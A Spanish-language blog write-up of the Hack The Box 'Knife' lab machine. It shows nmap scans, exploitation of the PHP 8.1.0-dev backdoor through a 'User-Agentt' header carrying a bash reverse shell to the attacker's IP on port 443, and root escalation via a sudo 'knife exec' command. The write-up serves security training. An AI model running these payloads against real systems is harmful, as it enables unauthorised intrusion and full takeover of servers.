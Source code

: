 ```yaml
---
layout: post
title: "Write Up Knife. "
subtitle: "Starting-Point"
category: Blog
tags: [Easy,Genin,Linux,PHP,User-Agent,RCE,SUDO,Apache,Web,Vulnerability-Assessment,Common-Applications,Outdated-Software,Backdoor,Reconnaissance,Misconfiguration,eJPTv2]  
image:
  path: /assets/img/knife/Captura%20de%20pantalla%20(271).png
---
```


***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance


### nmap


```bash
nmap -p- --open --min-rate 5000-sS -n -vvv -Pn 10.10.11.242 -oA allports
```


![list](/assets/img/knife/A-2022-12-14-13-56-40.png){:.lead width="800" height="100" loading="lazy"}


***

### Services and Versions


```bash
nmap -p22,80 -sV -sC 10.10.11.242 -oN target
```


![list](/assets/img/knife/A-2022-12-14-14-06-56.png){:.lead width="800" height="100" loading="lazy"}


***

## Analisis de vulnerabilidades


### HTTP TCP-80


Uso de Investigacion web, Google Hacking,Google Dorks y recopilación de información gracias a servicios de terceros.e ispeccionamos la web, ademas de las tecnologias de la ip ataves de la terminal o via  web esto lo hacemos con wapalizzer o whatweb.


![list](/assets/img/knife/A-2022-12-14-14-07-32.png){:.lead width="800" height="100" loading="lazy"}


Pasamos mucho tiempo enumerando directorios y vhosts, pero sin éxito solo, per en el whatweb aparece algo muy curioso que es la version de `PHP/8.1.0-dev` la cual vamos a buscar exploit en google para qver que encontramos.


Lo que encontramos es algo de [User-agent] remote code execution.


[User-agent]:(https://www.exploit-db.com/exploits/49933)


![list](/assets/img/knife/A-2022-12-14-14-26-35.png){:.lead width="800" height="100" loading="lazy"}


Revisando el scrip notamos que injecta una cabecera `User-Agentt": "zerodiumsystem('" + cmd + "');` la cual modificaremos con burpsuite para otrogarnos una reverse shell de la siguiente manera `User-Agentt": "zerodiumsystem('bash -c "exec bash -i >& /dev/tcp/10.10.16.3/443 0>&1"');`.


{:.note}
Nos ponemos a la escucha con nbnetcat en el pueto 443 buscamos la flag de bajos privileguios en el escritorio del usuario james.


![list](/assets/img/knife/A-2022-12-14-14-29-58.png){:.lead width="800" height="100" loading="lazy"}


***

## Explotacion


Siempre es bueno ejecutar **LimEnum** y **pspy**, para que podamos enumerar más vulnerabilidades que permitan elevar nuestros privilegios al usuario **root**.


El primer comando que deberiamos ejecutar ya en este punto es `sudo -l` que nos sirve para ver privileguios de sudoers por lo que encontramos una vulnerabilidad del archivo knife que es el nombre de la maquina que buscando en internet propiamente en [Gtobins] podemos explotar para convertirnos en root.


[Gtobins]:(https://gtfobins.github.io/gtfobins/knife/#sudo)


```shell
sudo knife exec -E 'exec "/bin/sh"'
```


![list](/assets/img/knife/A-2022-12-14-14-36-04.png){:.lead width="800" height="100" loading="lazy"}


Ya podemos, buscar la flag en el escritorio del root.
{:.note}


***

```shell
🎉 Felicitaciones ya has comprometido Knife de HackTheBox 🎉
```
{:.centered}
***

Back to [Beginner Track](2022-09-12-Beginner-Track.md){:.heading.flip-title}
{:.read-more}

***
Back to [Certification eJPTv2 ](2023-07-03-Road-to-eJPTv2.md){:.heading.flip-title}
{:.read-more}